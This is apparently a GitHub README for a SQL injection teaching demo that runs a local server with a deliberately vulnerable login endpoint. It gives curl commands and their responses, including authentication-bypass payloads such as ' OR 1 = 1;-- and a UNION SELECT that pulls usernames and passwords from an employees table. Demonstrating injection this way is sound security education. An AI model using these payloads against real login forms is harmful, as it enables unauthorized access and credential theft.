 SQL Injection Demo
==========

Execute Server
----------
```
python main.py
```

Test Server
----------
Tests are executed on Windows
```
curl -d "username=felix&password=pwfelix" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=wrongPW" -X POST http://localhost:5000/login_form_vulnerable
{"status":"fail"}
```

Injection basic attack
```
curl -d "username=felix&password=' OR 1 = 1;--" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```

Injection UNION attack
curl -d "username=felix&password=' UNION SELECT username, password FROM employees WHERE username = '' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
